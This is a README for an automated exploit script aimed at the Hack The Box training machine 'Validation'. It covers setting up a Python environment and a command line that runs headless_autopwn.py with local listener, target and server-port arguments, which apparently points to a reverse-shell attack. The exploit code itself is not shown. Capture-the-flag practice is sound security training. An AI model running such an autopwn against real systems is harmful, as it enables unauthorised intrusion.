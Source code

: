 # HTB Validation Autopwn

This is an attempt to write an autopwn for the HTB machine Validation. To reproduce this exploit successfully, you must be connected to the box through a vpn.

Steps to reproduce:

1. Install venv:

```
sudo apt install python3.11-venv
```

2. Initialize venv in the repository:

```
python3 -m venv ./env
source ./env/bin/activate
```

3. Install requirements.txt:

```
pip3 install -r requirements.txt
```

4. Run the exploit:

```
python3 headless_autopwn.py -l <LOCAL_HOST> -p <LOCAL_PORT> -r <REMOTE_TARGET_HOST> -s <LOCAL_SERVER_PORT>
```

- Alternatively:

```
python3 headless_autopwn.py --lhost <LOCAL_HOST> --lport <LOCAL_PORT> --rhost <REMOTE_TARGET_HOST> --srvport <LOCAL_SERVER_PORT>
```

- Example:

```
python3 headless_autopwn.py -l 10.10.16.80 -p 4444 -r 10.129.240.234 -s 80
```

Thanks for reading, and happy hacking!
